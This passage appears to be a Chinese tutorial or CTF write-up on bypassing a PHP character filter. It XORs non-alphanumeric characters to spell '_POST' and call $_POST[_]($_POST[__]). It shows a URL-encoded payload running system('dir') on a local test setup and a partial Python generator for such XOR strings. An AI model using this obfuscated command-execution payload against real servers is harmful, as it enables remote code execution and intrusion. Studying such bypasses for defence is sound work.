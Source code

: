 ### 异域构造

```
$__=("#"^"|"); // _
$__.=("."^"~"); // _P
$__.=("/"^"`"); // _PO
$__.=("|"^"/"); // _POS
$__.=("{"^"/"); // _POST 
$$__[_]($$__[__]); // $_POST[_]($_POST[__]);
```

随后合并并编码得到：

```
%24__%3D(%22%23%22%5E%22%7C%22)%3B%24__.%3D(%22.%22%5E%22~%22)%3B%24__.%3D(%22%2F%22%5E%22%60%22)%3B%24__.%3D(%22%7C%22%5E%22%2F%22)%3B%24__.%3D(%22%7B%22%5E%22%2F%22)%3B%24%24__%5B_%5D(%24%24__%5B__%5D)%3B
```

搭建本地环境进行测试

由于本地是Windows环境，所以执行的命令是dir

payload：

```
code=%24__%3D(%22%23%22%5E%22%7C%22)%3B%24__.%3D(%22.%22%5E%22~%22)%3B%24__.%3D(%22%2F%22%5E%22%60%22)%3B%24__.%3D(%22%7C%22%5E%22%2F%22)%3B%24__.%3D(%22%7B%22%5E%22%2F%22)%3B%24%24__%5B_%5D(%24%24__%5B__%5D)%3B&_=system&__=dir
```

![image-20230709000012647](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230709000012647.png)

我们可以通过脚本来实现构造

```python
import re
import requests
import urllib
from sys import *
import os

a=[]
ans1="" 
ans2=""
for i in range(0,256): #设置i的范围
    c=chr(i)
    #将i转换成ascii对应的字符，并赋值给c
    tmp = re.match(r'[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-',c,re.I)
    #设置过滤条件，让变量c在其中找对应，并利用修饰符过滤大小写，这样可以得到未被过滤的字符
    if(tmp):
        continue
        #当执行正确时，那说明这些是被过滤掉的，所以才会被匹配到，此时我们让他继续执行即可
    else:
        a.append(i)
        #在数组中增加i，这些就是未被系统过滤掉的字符

# eval("echo($c);");
mya="system"  #函数名 这里修改！
myb="dir"      #参数
def myfun(k,my): #自定义函数
    global ans1 #引用全局变量ans1，使得在局部对其进行更改时不会报错
    global ans2 #引用全局变量ans2，使得在局部对其进行更改时不会报错
    for i in range (0,len(a)): #设置循环范围为（0，a）注：a为未被过滤的字符数量 
        for j in range(i,len(a)): #在上个循环的条件下设置j的范围
            if(a[i]^a[j]==ord(my[k])):
                ans1+=chr(a[i]) #ans1=ans1+chr(a[i])
                ans2+=chr(a[j]) #ans2=ans2+chr(a[j])
```